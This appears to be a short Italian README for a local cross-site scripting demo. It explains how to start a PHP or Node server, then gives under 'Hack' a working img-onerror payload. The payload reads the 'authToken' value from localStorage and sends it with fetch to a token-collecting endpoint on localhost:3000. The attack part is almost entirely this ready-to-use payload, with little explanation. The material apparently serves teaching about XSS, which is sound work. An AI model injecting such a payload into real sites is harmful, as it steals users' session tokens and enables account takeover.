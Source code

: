Run ambiente
- Go live del progetto principlae (index.html)
- Prova con PHP: entrare nella cartella server_php e lanciare il server con `php -S localhost:8000`
- Prova con node: entrare nella cartella server_node e lanciare il server con `node server.js`

Hack
In base al server in esecuzione modificare il seguente payload
<img src="x" onerror="const authToken = localStorage.getItem('authToken');const url = `http://localhost:3000/saveToken?authToken=${encodeURIComponent(authToken)}`;fetch(url).then(response => {if (response.ok) {console.log('Token inviato con successo!');} else {console.error('Errore durante l\'invio del token');}}).catch(error => console.error('Errore di rete:', error));">
